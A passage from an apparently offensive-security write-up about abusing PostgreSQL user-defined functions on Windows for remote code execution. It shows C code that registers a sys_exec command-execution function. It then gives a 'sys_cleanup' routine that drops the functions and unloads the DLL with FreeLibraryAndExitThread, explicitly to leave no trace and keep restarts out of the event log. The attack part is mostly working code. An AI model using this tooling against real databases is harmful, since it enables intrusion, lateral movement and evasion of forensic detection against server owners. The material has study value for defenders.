 ```c
		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_exec(text) RETURNS int4 AS '%s', 'sys_exec' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		free(regcmd);

		SPI_finish();
		result = 1;
	}
	PG_RETURN_INT32(result);
}
...
```
*Source: [main.c][7]*

#### Poly is leaving: sys_cleanup()
Every story has to end, even for Poly. When we have done all the required tasks as information gathering and lateral movement, remember UDF is a mechanism to achieve the first RCE, we will use it to move to another more flexible and persistent mechanism as a backdoor or implant. To leave no trace nor clue about our abuse of the PostgreSQL we need to delete the functions and the DLL file. PostgreSQL keeps the module loaded on memory even when no function is registered, normaly we will need to restart the service to be able to delete the files, but we don't want to leave that event in the event log. We need to unload the module from memory and end execution, this will be almos imposible as the DLL unloading requires unmap the memory where is our code. We are not the only ones that requires this kind of functionality and Windows API have the answer! [*FreeLibraryAndExitThread*][10], we will use it to decrement de module count so the Windows will unmap the DLL from memory and release the lock of the file. We cannot do it from inside the called function because it will generate a crash, the *FreeLibraryAndExitThread* does not returns and the PostgreSQL expects every function it calls to return safely. To avoid this restriction we will use a Thread that will sleep for a second and then call [*FreeLibraryAndExitThread*] to unload and unmap the DLL and allow us to delete the DLL file!
```c
/*
UDF that use SPI to unload DLL module for allowing deleting it from disk. It will also drop all the UDFs in the DLL if @dropFn is true.
@dropFn flag to enable UDFs unregistering.
*/
PGDLLEXPORT Datum sys_cleanup(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(sys_cleanup);
Datum sys_cleanup(PG_FUNCTION_ARGS) {
	int result;
	result = 0;
	bool dropFn = PG_GETARG_BOOL(0);

	// Reference: https://www.postgresql.org/docs/9.0/spi-examples.html
	if (dropFn && SPI_connect() == SPI_OK_CONNECT) {
		int ret;

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_register");
		ret = SPI_exec((LPCSTR)"drop function sys_register()", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_eval");
		ret = SPI_exec((LPCSTR)"drop function sys_eval(text)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_exec");
		ret = SPI_exec((LPCSTR)"drop function sys_exec(text)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_cleanup");
		ret = SPI_exec((LPCSTR)"drop function sys_cleanup(bool)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);
```
